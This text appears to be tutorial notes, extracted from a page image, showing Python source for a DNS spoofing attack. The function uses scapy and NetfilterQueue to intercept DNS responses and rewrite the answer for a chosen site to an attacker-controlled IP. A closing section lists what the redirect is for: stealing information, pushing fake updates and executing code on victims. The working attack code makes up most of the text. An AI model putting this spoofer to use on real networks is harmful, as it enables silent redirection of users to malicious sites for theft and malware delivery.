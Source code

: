     def process_packet(packet: Packet) -> None:
        # convert NFQ packet to scapy
        scapy_packet = scapy.IP(packet.get_payload())
        # check packet for DNS response
        if scapy_packet.haslayer(scapy.DNSRR):
            # check packet for target website in DNS request
            qname = scapy_packet[scapy.DNSQR].qname
            if SPOOF_SITE in qname:
                # create modified DNS reponse
                answer = scapy.DNSRR(rrname=qname, rdata=SPOOF_IP)
                scapy_packet[scapy.DNS].an = answer
                scapy_packet[scapy.DNS].ancount = 1
                # delete verification fields
                del scapy_packet[scapy.IP].len
                del scapy_packet[scapy.IP].chksum
                del scapy_packet[scapy.UDP].len
                del scapy_packet[scapy.UDP].chksum
                # fields will be recalculated
                # print modified packet
                print(scapy_packet.show())
                # return modified scapy packet to NFQ packet
                packet.set_payload(bytes(scapy_packet))
        # NFQ send out the modified packet
        packet.accept()
    ```
Results
* if we now go to website in our browser and enter the spoofed web-address, we will be redirected to another website even to the displayed URL remains unchanged
* this is a powerful foundation to redirect targets to web-pages designed by hackers
    * to steal their information
    * to download fake updates
    * to execute code directly
    * etc. 